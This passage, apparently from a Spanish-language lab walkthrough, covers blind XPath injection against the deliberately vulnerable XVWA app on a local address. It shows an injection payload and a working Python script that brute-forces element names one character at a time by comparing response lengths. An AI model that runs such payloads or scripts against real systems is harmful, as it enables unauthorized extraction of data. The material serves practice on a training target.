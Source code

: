 Con el payload `' and substring(name(/*[1]/*[1]),1,1)='C` obtenemos para la primera posición el valor del carácter 

![Captura](./Imágenes/burpsuite_13.png)

---

**Script:** con esta información ya podemos modificar mínimamente el anterior script para que apunte a esta segunda etiqueta

```python
#/usr/env/bin python3

from pwn import *

import requests, time, sys, pdb, string, signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.70/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():

    data = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 7):
        for character in characters:
            post_data = {
                'search': "1' and substring(name(/*[1]/*[1]),%d,1)='%s" % (position, character),
                'submit': ''
            }

            r = requests.post(main_url, data=post_data)

            if len(r.text) != 8686:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```
